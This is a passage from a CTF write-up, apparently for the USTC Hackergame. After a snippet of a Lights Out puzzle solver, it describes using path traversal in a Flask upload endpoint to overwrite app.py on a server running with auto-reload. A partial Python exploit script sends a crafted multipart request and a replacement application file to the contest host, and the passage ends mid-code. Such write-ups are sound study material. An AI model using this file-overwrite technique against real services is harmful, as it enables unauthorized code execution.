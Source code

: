 ```python

n = 11
lights_array = generate_puzzle(n)
solution = solve_lights_out_3d(n, lights_array)

print("Solution:", solution)
```

## 禁止内卷

I took a rather brute-force approach. At first, I tried to infer the answer (didn't notice there was a sanity check), but failed. ~~I heard someone managed to infer it, which is impressive.~~

Since the challenge mentioned `flask run --reload --host 0`, I first tried to exploit a path traversal vulnerability to upload a new `secrets.py` to the running directory to replace the function. Later, I found that `reload` doesn't seem to reload already imported content, so that failed (or maybe I just got it wrong). In the end, I simply used path traversal to forcibly overwrite `app.py`, and that worked.

```python
import requests

host = "https://chal02-m8u2l3ak.hack-challenge.lug.ustc.edu.cn:8443"
url = host + "/submit"
session = requests.Session()

boundary = "-----------------------------330935380121946806301231286775"
headers = {
    "User-Agent": "Custom User Agent String",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Content-Type": f"multipart/form-data; boundary={boundary}",
    "Origin": host,
    "Referer": host + "/",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Priority": "u=0, i",
}

cookies = {
    "_ga": "GA1.3.1136939081.1704010130",
    "_ga_VR0TZSDVGE": "GS1.3.1708930541.2.1.1708930610.0.0.0",
    "sduuid": "11d79c7db986c2237ea0e97aa1b8b201"
}

json_content = '''
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets
app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)
UPLOAD_DIR = "/tmp/uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)
# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
```